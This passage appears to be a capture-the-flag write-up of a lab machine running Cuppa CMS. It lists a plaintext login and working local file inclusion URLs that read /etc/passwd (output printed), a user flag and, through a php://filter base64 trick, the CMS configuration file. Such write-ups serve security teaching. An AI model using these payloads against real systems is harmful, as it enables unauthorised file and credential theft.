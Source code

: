 Log in the same way we did with anonymous, using username: milesdyson, password: )s{A&2Z=F^n_E.B`

Copied all files to working directory.

important.txt --> 1. Add features to beta CMS /45kra24zxs28v3yd

http://10.10.143.191/45kra24zxs28v3yd/ links to a page

![](2020-08-20-00-06-29.png)

We can gobuster it:

Output:







Find a page: http://10.10.143.191/45kra24zxs28v3yd/administrator/

Cuppa CMS is running, asking for username and password.
Possible exploit: https://www.exploit-db.com/exploits/25971

http://10.10.143.191/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

Field configuration:
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false lxd:x:106:65534::/var/lib/lxd/:/bin/false messagebus:x:107:111::/var/run/dbus:/bin/false uuidd:x:108:112::/run/uuidd:/bin/false dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false postfix:x:113:121::/var/spool/postfix:/bin/false mysql:x:114:123:MySQL Server,,,:/nonexistent:/bin/false 

http://10.10.143.191/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../home/milesdyson/user.txt

Field configuration:
7ce5c2109a40f958099283600a9ae807 

Get CuppaCMS Configuration file:

http://10.10.143.191/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
